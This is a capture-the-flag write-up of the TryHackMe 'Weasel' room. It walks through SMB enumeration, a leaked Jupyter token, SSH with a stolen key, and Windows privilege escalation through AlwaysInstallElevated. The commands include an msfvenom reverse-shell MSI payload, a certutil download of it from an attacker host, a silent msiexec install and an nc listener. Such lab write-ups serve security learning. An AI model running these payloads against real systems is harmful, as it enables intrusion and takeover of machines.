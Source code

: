 ```yaml
---
published: true
layout: post_toc
title: THM-Weasel
categories: Writeup
---
```

# Weasel
I think the data science team has been a bit fast and loose with their project resources.

#### Nmap Result

```bash 
nmap -sV -sC -O -T4 -n -Pn -oA fastscan -Pn
```

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-1.png){:width="70%"}

Based on the Nmap results, it appears that the machine is likely running a Windows operating system. This conclusion is supported by the presence of open ports associated with the SMB (Server Message Block) protocol, which is commonly used in Windows environments for file sharing and network communication. 

Additionally, the detection of a Jupyter Notebook deployment suggests that the machine may also be used for data science or development purposes. Jupyter Notebook is a popular platform for interactive computing, often utilized by data scientists and researchers. Taken together, the presence of open ports related to SMB and the availability of a Jupyter Notebook deployment point towards a Windows machine with potential data science or development activities.

#### Smb enumeration 

```bash 
smbclient --no-pass -L //10.10.215.176
```

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-2.png){:width="70%"}

we can see the available shares on a remote SMB server at the machine  there is available share named "datasci-team". but no additional comment or description is provided.

Let's connect to the datasci-team using smbclient. 
```bash 
smbclient --no-pass //10.10.215.176/datasci-team
```

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-3.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-4.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-5.png){:width="70%"}

It appears that the majority of the files are related to Weasel research. However, a noteworthy file of interest has been discovered. Within the "misc" directory, there is a file containing a Jupyter token, which could potentially provide access to the Jupyter Notebook instance.

#### Jupyter notebook 

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-6.png){:width="70%"}

With the Jupyter token we obtained, we can easily gain access to the Jupyter Notebook instance. By using this token, we can authenticate ourselves and access the features and functionalities provided by Jupyter Notebook.

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-7.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-8.png){:width="70%"}

By utilizing the functionality of Jupyter Notebook, it is possible to exploit a reverse shell technique, enabling us to gain access to the shell of the target machine.



#### Adding key to SSH Agent

Let's examine the user accounts by reviewing the contents of the /etc/passwd file. This file contains information about the users on the system, including their usernames, user IDs, group IDs, home directories, and default shells.

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-9.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-10.png){:width="70%"}

Upon inspecting the home directory of dev-datasci, we discovered several files associated with Jupyter Notebook and Anaconda. Of particular interest to us is the file named dev-datasci-lowpriv_id_ed25519, which we can utilize to establish a connection to the previously identified open SSH. 

We can simply add the obtained ssh keys using the commands below and connect the the ssh keys.
```bash
eval "$(ssh-agent -s)"
ssh-add dev-datasci-lowpriv_id_ed25519
ssh -i dev-datasci-lowpriv_id_ed25519 dev-datasci-lowpriv@10.10.215.176
```


#### User Flag

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-11.png){:width="70%"}

Once you have successfully connected to the SSH, you can easily retrieve the user flag located in the dev-datasci-lowpriv directory on the Desktop.

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-12.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-13.png){:width="70%"}


![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-14.png){:width="70%"}

Take note the results of the default creds of the Default User Name.

#### Privilege Escalation 

By executing the "net user" command, we can observe that there are a total of six user accounts, including our own. Our focus is on the administrator account.

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel.png){:width="70%"}

Through a registry query, it has been determined that the "AlwaysInstallElevated" key is currently set to 1. This configuration suggests that privilege escalation can be achieved by utilizing the "msiexec" command. As a next step, we can generate an MSI payload to exploit this opportunity.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker-ip-address> LPORT=4445 -f msi -o reverse.msi
```

```bast 
# From our Machine hosting the payload
sudo python3 -m http.sever 80
```

```bash
# From Victim(Target) Machine
certutil -urlcache -split -f http://10.8.120.163/reverse.msi
```

To exfiltrate our msfvenom payload to the target machine, we can utilize Python and certutil. Following that, we can proceed with privilege escalation by leveraging the "AlwaysInstallElevated" registry setting.

```bash 
runas /user:dev-datasci-lowpriv "msiexec /i C:\Users\dev-datasci-lowpriv\Downloads\rev.msi /qn"
```

```
# listener 
nc -lvnp 4445
```

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-15.png){:width="70%"}

#### Root Flag 

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-16.png){:width="70%"}

Once you have successfully gained access, you can effortlessly retrieve the root flag located in the Administrator directory on the Desktop.

--- 
#### References
- https://tryhackme.com/room/weasel
- https://medium.com/risan/upgrade-your-ssh-key-to-ed25519-c6e8d60d3c54